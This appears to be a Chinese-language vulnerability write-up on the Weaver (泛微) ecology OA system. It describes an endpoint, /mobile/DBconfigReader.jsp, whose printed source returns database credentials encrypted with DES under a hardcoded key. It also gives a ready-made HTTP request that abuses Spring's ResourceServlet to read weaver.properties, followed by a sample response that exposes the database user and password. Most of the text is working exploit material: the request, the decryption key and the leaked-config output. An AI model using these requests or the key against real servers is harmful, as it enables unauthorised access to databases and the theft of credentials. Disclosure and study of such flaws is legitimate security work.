

# 泛微ecology OA系统接口存在数据库配置信息泄露漏洞

## /mobile/DBconfigReader.jsp

` http://x.x.x.x:8090/mobile/DBconfigReader.jsp`


## Fortify 代码审计 检测出-弱加密算法


`SecretKey key = SecretKeyFactory.getInstance("DES").generateSecret(dks1);`

```
<%@ page language="java" contentType="text/html; charset=UTF-8"%>
<%@ page import="weaver.file.Prop" %>
<%@ page import="javax.crypto.spec.DESKeySpec" %>
<%@ page import="javax.crypto.*" %>
<%
	String conStr=Prop.getPropValue("weaver","ecology.url");
	String conUser=Prop.getPropValue("weaver","ecology.user");
	String conPsw=Prop.getPropValue("weaver","ecology.password");
	String loginType=Prop.getPropValue("weaver","authentic");
//	StringBuffer sb = new StringBuffer();
//	sb.append("url="+conStr+",");
//	sb.append("user="+conUser+",");
//	sb.append("password="+conPsw);
	String sb="url="+conStr+",user="+conUser+",password="+conPsw+",logintype="+loginType;
 	byte[]  str = sb.getBytes();
	String keyString = "1z2x3c4v5b6n";
	byte[] keyByte = keyString.getBytes();
	// 创建一个密匙工厂，然后用它把DESKeySpec对象转换成一个SecretKey对象
	DESKeySpec dks1 = new DESKeySpec(keyByte);
    SecretKey key = SecretKeyFactory.getInstance("DES").generateSecret(dks1);
	Cipher cipher = Cipher.getInstance("DES");
	cipher.init(Cipher.ENCRYPT_MODE, key);  
	byte[] cipherText = cipher.doFinal(str);
	//System.out.println(cipherText.length);
	ServletOutputStream sos = response.getOutputStream();
	sos.write(cipherText);
	sos.flush();
	sos.close();
%>
```

## 文件读取漏洞 org.springframework.web.servlet.ResourceServlet

https://docs.spring.io/spring/docs/3.0.x/javadoc-api/org/springframework/web/servlet/ResourceServlet.html

泛微-数据库配置文件：`/WEB-INF/prop/weaver.properties`

```
GET /weaver/org.springframework.web.servlet.ResourceServlet?resource=/WEB-INF/prop/weaver.properties HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

```
HTTP/1.1 200 OK
Server: Resin/3.1.8
Cache-Control: private
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1
Set-Cookie: ecology_JSessionId=xxxxxx; path=/
Content-Length: 609
Connection: close
Date: Mon, 13 Jul 2020 08:13:13 GMT

ecology.overtime=60
DriverClasses = com.microsoft.jdbc.sqlserver.SQLServerDriver
ecology.url=jdbc\:sqlserver\://127.0.0.1\:1433;DatabaseName\=ecology
ecology.maxconn=300
ecology.user=sa
ecology.password=123456
ecology.charset=ISO
LOG_FORMAT=yyyy.MM.dd'-'hh\:mm\:ss
ecology.isgoveproj=0
DEBUG_MODE=false
```
